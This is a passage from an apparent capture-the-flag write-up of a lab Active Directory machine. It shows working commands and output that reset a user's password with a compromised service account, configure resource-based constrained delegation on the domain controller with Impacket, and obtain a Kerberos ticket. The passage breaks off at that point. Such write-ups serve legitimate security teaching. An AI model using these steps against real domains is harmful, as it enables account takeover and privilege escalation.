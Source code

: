 <figure><img src="../assets/img/Bloodhound_2.png" alt=""><figcaption></figcaption></figure>

As seen, we have an attack chain consisting of 2-3 stages.\
Let's start by changing the password of the wsilva user

```bash
net rpc password "wsilva" 'vulnlab_phantom123' -U phantom.vl/svc_sspr%<REDACTED> -S phantom.vl
```

It’s worth checking.

```zsh
➜  Phantom netexec smb 10.10.98.25 -u wsilva -p vulnlab_phantom123
SMB         10.10.98.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
SMB         10.10.98.25     445    DC               [+] phantom.vl\wsilva:vulnlab_phantom123 
```

In this scenario, the _wsilva_ user is used as part of an **RBCD (Resource-Based Constrained Delegation)** attack, and the steps involve leveraging various Kerberos and service ticket operations to escalate privileges and ultimately gain access to the target system.

The link below is really helpful at this stage:

[Resource](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)


We are configuring Resource-Based Constrained Delegation (RBCD) by allowing the user `wsilva` to impersonate other users _to_ the domain controller

```bash
➜  Phantom impacket-rbcd -delegate-from 'wsilva' -delegate-to 'DC$' -dc-ip '10.10.98.25' -action 'write' 'phantom.vl'/'wsilva':'vulnlab_phantom123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] wsilva can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
➜  Phantom impacket-getTGT -hashes :$(pypykatz crypto nt 'vulnlab_phantom123') 'phantom.vl'/'wsilva'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in wsilva.ccache
➜  Phantom export KRB5CCNAME=wsilva.ccache 
```
